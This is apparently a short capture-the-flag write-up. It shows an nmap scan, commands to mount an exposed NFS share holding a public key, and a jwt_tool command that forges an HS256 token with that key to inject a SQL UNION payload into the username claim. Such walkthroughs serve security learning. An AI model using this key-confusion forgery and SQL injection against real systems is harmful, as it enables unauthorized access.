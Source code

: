 nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

NFS 

```shell
showmount -e 192.168.216.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.216.222:/mnt/share /tmp/test_folder -o nolock
```

Finding a public key but don't know where to use it. 

Next, checking the website. After trying to register many accounts, I find an existing account `brain` the username in the contacts page.



Registering account on the web page and check the session is JWT. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) for testing.

JWT SQL injection

```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k public.pem
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

Our test payload

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1NTg3MzE4fQ.pi_Q8MWnXPtCDhgGcu5yQrjwuPWdgmyHnb7R5eqfBMsAx8UUb-jJ7rvw4bwbqNoucm8STXQweQ_VZwtXka2MCwVMbYSleb4HBa5glk7TdYfq6VATRLXgOU1hKEq1_bJnt5CZhZsBSpiupf2TetA1CeoOAP4Az8h7YAPRNGumJ-rP1z8G3M9uVhfgEJQce4OFNMfLRjFgynPlh9Ekg9ElzdGAUPmv_XjFQnEHLzICW5S6n_8b8siRZFSyNY3A-NcMT-c4D-LqM0WlU_IKdTXoL4vFOc88Yiw0mur51Nokz53xOvEJCEqWndPtOu-uTFKp_e3haNRllEHb3CFvuGi8sepuJil-sW0kZZ8zGtqf4nT4ET4Y6gGAw6qpXoon8ZdC_VfAauuh8gVm11JPbhbXbHsuYSKkdbOOd1p-SemWp9J8-QzB5vyIBql4av8OQ7SiQG9CUUNyg_YDzdPNW3GwzvlTbBArODb4L7BEsOvAsGdTSqimSPI7SWff3I2UdXvo7TfaLXShal_IAnMfh7C96WV8kGHPuRoAd7tikK72vNno2THv1JrvyL4aX3WJ84T3INDzInkNjCGexUk29Q31yZVG4eGZKF7Kbto-rXOryCHfg-JalDmzrOiCh14dDYl6o5YQv4XGFxBke7ucytBi5XO-BZSc8V2NCn9h2v8b88U -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k public.pem
```